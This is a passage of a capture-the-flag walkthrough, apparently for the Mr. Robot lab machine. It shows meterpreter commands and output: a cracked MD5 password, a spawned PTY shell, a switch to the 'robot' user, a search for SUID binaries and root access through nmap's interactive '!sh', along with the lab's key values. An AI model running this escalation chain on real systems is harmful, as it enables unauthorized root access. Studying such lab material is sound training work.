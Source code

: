 40755/rwxr-xr-x  4096  dir   2015-11-13 02:20:08 -0500  robot<br>
meterpreter > ls /home/robot<br>
Listing: /home/robot<br>
====================<br>
Mode              Size  Type  Last modified              Name<br>
100400/r--------  33    fil   2015-11-13 02:28:21 -0500  key-2-of-3.txt<br>
100644/rw-r--r--  39    fil   2015-11-13 02:28:21 -0500  password.raw-md5<br>
MD5 reverse for c3fcd3d76192e4007dfb496cca67e13b<br>
The MD5 hash:<br>
c3fcd3d76192e4007dfb496cca67e13b<br>
was succesfully reversed into the string:<br>
abcdefghijklmnopqrstuvwxyz<br>

# Get Shell & connect with robot user
meterpreter > shell<br>
Process 2185 created.<br>
Channel 1 created.<br>
ls<br>
XcjcitgKWi.php<br>
ytLKDWXpFu.php<br>

Let's get a properl shell with : <br>
echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py<br>
python /tmp/asdf.py<br>

sudo su robot<br>
Password: abcdefghijklmnopqrstuvwxyz<br>

# Retrieve the 2nd key  
robot@linux:~$ cat key-2-of-3.txt<br>
cat key-2-of-3.txt<br>
822c73956184f694993bede3eb39f959<br>

# Look for programs installed as root 
find / -user root -perm -4000 -print

# Abusing --interactive option of NMAP  
nmap --interactive
nmap> !sh 

# Got root, retrieve the 3rd key  <br>
find / - name 'key-3-of-3.txt' -exec ls -l {\}\ \;<br>
cd root<br>
cat key-3-of-3.txt<br>
04787ddef27c3dee1ee161b21670b4e4<br>




